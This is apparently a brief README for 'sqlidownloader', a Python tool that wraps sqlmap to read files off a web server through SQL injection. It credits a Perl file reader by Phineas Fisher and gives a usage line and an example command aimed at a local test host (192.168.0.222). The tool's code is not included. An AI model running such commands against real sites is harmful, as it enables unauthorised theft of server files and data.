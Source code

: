 # sqlidownloader
SQL Injection tool based on file_reader.pl of Phineas Fisher Perl tool

######Modo de uso
```

./sqlidownloader.py [SQLMAP URL and PARAMS] [output-folder] [web_document_root_path] [first_file_or_index_file]

Example

./sqlidownloader.py "-u http://192.168.0.222/sqliweb/noticias.php?id=2 --dbms=mysql -p id --technique=U" prueba "/var/www/sqliweb" "/var/www/sqliweb/noticias.php"
```
